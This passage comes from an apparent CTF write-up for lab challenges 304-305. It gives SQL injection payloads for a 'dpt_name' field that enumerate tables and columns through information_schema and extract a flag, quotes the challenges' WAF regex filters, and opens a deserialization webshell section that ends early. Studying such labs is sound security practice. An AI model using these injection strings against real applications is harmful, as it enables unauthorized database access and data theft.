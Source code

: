 ```
dpt_name=1',sds_address=(select flag from sds_fl9g)--+
```

![](https://i.loli.net/2021/10/06/kBmEWNKOJ6AGSLU.png)



## 304 sql注入

> hint:
>
> 增加了全局waf
>
> ```php
> function sds_waf($str){
> 	return preg_match('/[0-9]|[a-z]|-/i', $str);
> }
> ```
>
> 

奇怪的是没发现waf，上面的payload还是能用，只不过改了表名：sds_flaag

```
dpt_name=1',sds_address=(select group_concat(table_name) from information_schema.tables where table_schema=database())--+
```

```
dpt_name=1',sds_address=(select group_concat(column_name) from information_schema.columns where table_name='sds_flaag')--+
```

```
dpt_name=1',sds_address=(select flag from sds_flaag)--+
```



## 305 反序列化传马

丢给seay扫![](https://i.loli.net/2021/10/06/Zl8Luz195PMbqdc.png)

先看一下dptadd.php，每个变量都被加上了waf，sql注入大概g了

```php
function sds_waf($str){
	if(preg_match('/\~|\`|\!|\@|\#|\$|\%|\^|\&|\*|\(|\)|\_|\+|\=|\{|\}|\[|\]|\;|\:|\'|\"|\,|\.|\?|\/|\\\|\<|\>/', $str)){
		return false;
	}else{
		return true;
	}
}
```
